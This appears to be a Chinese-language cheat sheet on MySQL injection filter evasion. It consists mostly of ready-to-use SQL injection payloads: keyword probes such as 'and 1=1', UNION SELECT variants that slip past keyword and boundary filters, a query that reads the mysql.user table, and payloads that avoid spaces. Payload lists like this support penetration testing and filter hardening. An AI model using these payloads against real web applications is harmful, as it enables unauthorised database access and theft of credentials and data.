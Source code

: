 ```yaml
---
title: "Mysql注入过滤"
date: 2016-04-25 21:09
---
```



## 过滤识别

### 查找关键字

```
and 1=1
and =
and 1
and (select 1)
and union
and union select
and union select 1,2,
and union/**/select/**/1,2
and select
?id=2078-1
?id=2078-if(1,0,1)
?id=2077-mid(123,1,1)
```

### 识别关键词边界

```
where id=8E0union select 1,2,3,4,5,6,7,8,9,0
where id=8.0union select 1,2,3,4,5,6,7,8,9,0
where id=\Nunion select 1,2,3,4,5,6,7,8,9,0
where id=.1union/*.1*/select-.1
where id=.1union/*.1*/select!.1
where id=.1union/*.1*/select~.1
where id=.1union/*.1*/select(1)
where id=.1union/*.1*/select`host`from mysql.user
where id=.1union/*.1*/select'1'
where id=.1union/*.1*/select"1"
where id=.1union/*.1*/select@1
```

## 特殊符号绕过

### 过滤空格

在MySQL中可替换为：

```
SQL> select * from`user`;
SQL> 'and(true)like(false)union(select(pass)from(users))#
```

